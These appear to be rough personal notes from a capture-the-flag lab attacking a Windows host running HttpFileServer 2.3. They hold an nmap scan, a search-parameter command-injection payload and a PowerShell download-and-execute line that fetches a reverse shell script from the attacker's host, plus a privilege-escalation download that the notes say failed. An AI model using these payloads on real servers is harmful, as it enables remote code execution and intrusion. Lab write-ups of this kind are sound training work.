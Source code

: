 $ nmap -sC -sV 10.10.10.8         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 12:38 EST
Nmap scan report for 10.10.10.8
Host is up (0.28s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


default rejetto scipts dont work

`http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}`

[](./rev.ps1)

http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.19:8000/rev.ps1').}

![](20230217135239.png)  

got a connect back

privilege escalations

IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.19:8000/ms16-32.ps1')

but ms 16 32 didnot wokr

need to donwload sherlock first

ms 16 32 not working

